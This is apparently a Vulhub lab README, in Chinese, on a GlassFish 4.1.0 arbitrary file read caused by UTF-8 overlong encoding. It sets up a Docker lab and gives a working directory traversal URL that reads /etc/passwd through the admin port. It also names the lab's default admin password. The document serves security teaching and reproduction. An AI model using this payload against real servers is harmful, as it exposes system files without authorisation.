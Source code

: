 # GlassFish 4.1.0 任意文件读取漏洞

GlassFish是一个用于Java EE平台的开源应用服务器。在GlassFish中存在一个漏洞，攻击者可以通过UTF-8 Overlong Encoding攻击读取任意文件。

该漏洞产生的原因是GlassFish在解码URL时没有正确处理UTF-8 Overlong Encoding，导致将`%c0%ae`解析为ASCII字符的`.`（点）。攻击者可以通过在URL中使用`%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/`来实现目录遍历，从而读取系统上的任意文件。

参考链接：

- <https://www.trustwave.com/Resources/Security-Advisories/Advisories/TWSL2015-016/?fid=6904>
- <https://www.leavesongs.com/PENETRATION/utf-8-overlong-encoding.html>

## 环境搭建

执行如下命令构建并启动环境：

```
docker compose up -d
```

环境启动后，你可以访问：
- `http://your-ip:8080` - 网站内容
- `http://your-ip:4848` - GlassFish管理控制台

## 漏洞复现

访问以下URL可以读取`/etc/passwd`的内容：

```
https://your-ip:4848/theme/META-INF/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/etc/passwd
```

![](1.png)

## 补充说明

超级管理员密码在`docker-compose.yml`中设置，默认值为`vulhub_default_password`。你可以使用此密码在4848端口登录管理员账户。 